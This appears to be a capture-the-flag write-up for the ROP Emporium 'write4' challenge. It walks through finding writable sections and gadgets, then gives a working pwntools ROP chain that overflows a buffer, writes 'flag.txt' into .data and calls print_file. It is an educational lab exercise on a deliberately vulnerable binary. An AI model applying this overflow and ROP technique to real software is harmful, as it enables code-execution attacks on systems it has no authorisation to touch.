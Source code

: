 # 4. write4

the forth challenge, this challenge is a little bit different from the others previously.  
in this challenge, the binary provided a function to `print_file` for us, but there's 
no `"flag.txt"` string in the binary, so we somehow have to write `"flag.txt"` into the binary ourselve.  
so how do we write into the memory? there's an instruction that we can use such as `mov [reg], reg` 
that allow us to write a value into the memory.  

so where do we write the string into? let's check the binary for sections we can write into 
and section that when we write into will not cause us any problems if we need some kind of stability in our exploit.  

```
┌──(kali㉿kali)-[~/ctf/rop/write4]
└─$ rabin2 -S write4
[Sections]

nth paddr        size vaddr       vsize perm name
―――――――――――――――――――――――――――――――――――――――――――――――――
---
18  0x00000df0    0x8 0x00600df0    0x8 -rw- .init_array
19  0x00000df8    0x8 0x00600df8    0x8 -rw- .fini_array
20  0x00000e00  0x1f0 0x00600e00  0x1f0 -rw- .dynamic
21  0x00000ff0   0x10 0x00600ff0   0x10 -rw- .got
22  0x00001000   0x28 0x00601000   0x28 -rw- .got.plt
23  0x00001028   0x10 0x00601028   0x10 -rw- .data
24  0x00001038    0x0 0x00601038    0x8 -rw- .bss ---
```

so here are sections that we can write into, its size and address. i will choose to write into `.data` here since it 
doesn't interfere with anything in the binary (maybe???).  

let's find gadgets for this exploit. let's look into what's inside the `usefulFunction` and `usefulGadgets`  

```
┌──(kali㉿kali)-[~/ctf/rop/write4]
└─$ objdump -M intel --disassemble=usefulFunction -S write4
---
0000000000400617 <usefulFunction>:
  400617:       55                      push   rbp
  400618:       48 89 e5                mov    rbp,rsp
  40061b:       bf b4 06 40 00          mov    edi,0x4006b4
  400620:       e8 eb fe ff ff          call   400510 <print_file@plt>
  400625:       90                      nop
  400626:       5d                      pop    rbp
  400627:       c3                      ret
---
```

```
┌──(kali㉿kali)-[~/ctf/rop/write4]
└─$ objdump -M intel --disassemble=usefulGadgets -S write4
---
0000000000400628 <usefulGadgets>:
  400628:       4d 89 3e                mov    QWORD PTR [r14],r15
  40062b:       c3                      ret
  40062c:       0f 1f 40 00             nop    DWORD PTR [rax+0x0]
---
```

we can see there's and instruction to write `r15` in the address of `r14` let's find gadgets to get this done.  

```
┌──(kali㉿kali)-[~/ctf/rop/write4]
└─$ ROPgadget --binary write4 | grep r14
0x0000000000400628 : mov qword ptr [r14], r15 ; ret
0x000000000040068c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040068e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400690 : pop r14 ; pop r15 ; ret
0x000000000040068b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040068f : pop rbp ; pop r14 ; pop r15 ; ret
0x000000000040068d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
```

`pop r14 ; pop r15 ; ret` and `mov qword ptr [r14], r15 ; ret` nice.  

let's chain them together now!  

```python
from pwn import *

padding = b"x"*40
pop_r14_r15 = 0x400690
mov_r14_r15 = 0x400628
print_file = 0x400510
pop_rdi = 0x400693
data_sec = 0x601028

file_to_print = b"flag.txt"

p = process("./write4")

payload = padding + p64(pop_r14_r15) + p64(data_sec) + file_to_print + p64(mov_r14_r15) + p64(pop_rdi) + p64(data_sec) + p64(print_file)

p.sendline(payload)

print(p.recvall().decode("utf-8"))
```

result: 
```
┌──(kali㉿kali)-[~/ctf/rop/write4]
└─$ python solve.py
[+] Starting local process './write4': pid 2004
[*] Switching to interactive mode
write4 by ROP Emporium
x86_64

Go ahead and give me the input already!

> Thank you!
ROPE{a_placeholder_32byte_flag!}
```

nicesu nicesu!!
